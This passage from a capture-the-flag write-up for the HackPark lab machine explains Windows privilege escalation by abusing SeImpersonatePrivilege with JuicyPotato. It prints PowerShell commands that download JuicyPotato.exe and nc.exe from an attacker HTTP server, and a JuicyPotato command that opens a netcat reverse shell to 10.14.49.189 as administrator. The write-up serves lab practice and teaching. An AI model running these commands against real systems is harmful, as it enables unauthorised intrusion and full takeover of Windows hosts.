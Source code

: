 
## Privilege escalation

It is important to note that the user who returns the shell to us is a user who is used to manage the web service and has very low privileges.

As in other write-ups, the first thing I do is enumerate the privileges that a user has. In this case, when I do so, I see that the user has the SeImpersonatePrivilege privilege enabled.

Seeing that we have permissions over this service should catch our attention because it implies that we have ensured privilege escalation.

Just like in the Alfred machine, we are going to use the JuicyPotato tool. In real environments, it is highly detected, but it is an alternative to not using Metasploit. [JuicyPotato]( https://github.com/ohpe/juicy-potato/releases)

SeImpersonatePrivilege is a permission that allows a process to impersonate the identity of another user, which is useful for authentication and authorization in server applications and in applications that need to interact with the operating system. However, this permission can also be exploited by an attacker if they gain access to a user account that has the SeImpersonatePrivilege permission and then use it to escalate their own privileges or to execute malicious commands with the user's privileges.

We need to upload that executable to the machine. To do so, we will create an HTTP server with Python and download it from the victim machine using the `Invoke-Expression` tool.

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/JuicyPotato.exe', 'C:\Users\Public\JuicyPotato.exe')" -bypass executionpolicy"
```

To successfully carry out privilege escalation, we need to upload the netcat binary, which can be found in our Kali Linux system using the `locate nc.exe` command

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/nc.exe', 'C:\Users\Public\nc.exe')" -bypass executionpolicy"
```

We run JuicyPotato, which can be guided by the guide on the GitHub repository or directly from the help shown in the console.

Here's an explanation of each of the parameters used in the command:

-   `-l 1337`: specifies the local port that the COM server will listen on for incoming connection.
-   `-p c:\windows\system32\cmd.exe`: specifies the program to use for the privilege escalation attack. In this case, it is the cmd.exe command that is located in the Windows system folder.
-   `-a "/c c:\users\public\nc.exe -e cmd.exe 10.14.49.189 443"`: specifies the command to execute when the privilege escalation occurs. In this case, the nc.exe (Netcat) program is being used to establish a reverse connection to a specified remote IP and port.
-   `-t *`: specifies the type of token to use for the attack. The value '*' indicates that any available token with the necessary permissions for privilege escalation will be used.

A COM server is a software component that runs on Windows and provides a programming interface for client programs to communicate with it and use its services. COM servers are an important part of component technology in Windows and are widely used for application integration and development.

```
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.14.49.189 443" -t *
```

 Establish a listening port on our machine and run the command,  receiving a shell as the administrator user obtaining both flags

![[Imagenes/HackPark/15.png]]

![[Imagenes/HackPark/16.png]]


